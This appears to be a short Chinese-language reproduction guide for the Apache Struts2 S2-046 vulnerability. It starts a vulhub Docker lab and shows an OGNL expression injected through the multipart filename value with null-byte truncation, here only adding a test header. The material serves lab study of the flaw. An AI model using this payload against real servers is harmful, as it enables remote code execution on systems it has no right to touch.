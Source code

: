### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-046
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面

![s2-046-1](images/s2-046-1.png)

利用 filename 参数触发漏洞，添加 HTTP Header 参数，将 `filename` 参数的值设置为如下内容，然后再 Hex 模式下进行 00 截断

```
filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',1+99)}\x00b"
```

![s2-046-2](images/s2-046-2.png)
